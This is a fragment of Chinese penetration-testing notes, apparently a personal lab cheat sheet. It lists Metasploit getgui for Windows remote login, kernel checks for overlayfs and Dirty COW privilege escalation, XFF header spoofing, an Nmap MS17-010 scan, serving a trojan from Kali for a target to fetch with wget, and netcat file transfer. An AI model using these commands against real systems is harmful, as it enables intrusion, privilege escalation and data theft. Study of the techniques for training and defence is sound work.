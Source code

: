 **msf开启windows靶机的远程登录**

run getgui -e

**查看内核版本**

uname -r

Linux Kernel\>=2.6.22的所有linux主机（没打过补丁的）

使用常规的溢出漏洞 overlayfs，支持 ubuntu 12.04/14.04/14.10/15.04
和内核版本大于 3.13.0 小于 3.19。

就可以searchsploit dirty 搜索脏牛漏洞

**HTTP头部详解**

User-Agent：使得服务器能够识别客户端的操作系统，游览版本等。（很多数据大量的网站中会记录客户端的操作系统或浏览器版本等存入数据库中）

Cookie：网站为了辨别用户身份，进行session跟踪而存储在用户本地终端上的数据(通常经过加密)

X-Forwarded-For：简称XFF头，它代表客户端，也就是HTTP的请求端真实IP，（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库or某文件\[通过修改XXF头可以实现伪造IP\])

Clien-IP：同上，不做过多介绍

Referer：浏览器向WEB服务器表明自己是从哪页面链接过来的。

Host：客户端指定自己想访问的WEB服务器的域名/IP 地址和端口号

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image48.png){width="5.760416666666667in"
height="3.18082239720035in"}

Nmap 命令搜索ms17-010漏洞命令可以是其他的漏洞但是要换对端口

Nmap -p445 \--script smb-vuln-ms17-010 172.16.123.114

Kali使用python临时开启HTTP服务

python -m SimpleHTTPServer 80

pyhthon -m httpd.server

靶机下载木马或者其他事情

 Linux
系统上使用 [wget](https://so.csdn.net/so/search?q=wget&spm=1001.2101.3001.7020) 指令即可下载该文件：wget
[[http://xxxx]{.underline}](http://xxxx)

有些是get 和downloa

nc下载文件

kali:

nc -lvp 8888 \< pass.txt

靶机：

nc 192.168.222.128 8888 \> pass.txt

**cewl**

输入下列命令之后，爬虫会根据指定的URL和深度进行爬取，然后打印出可用于密码破解的字典：
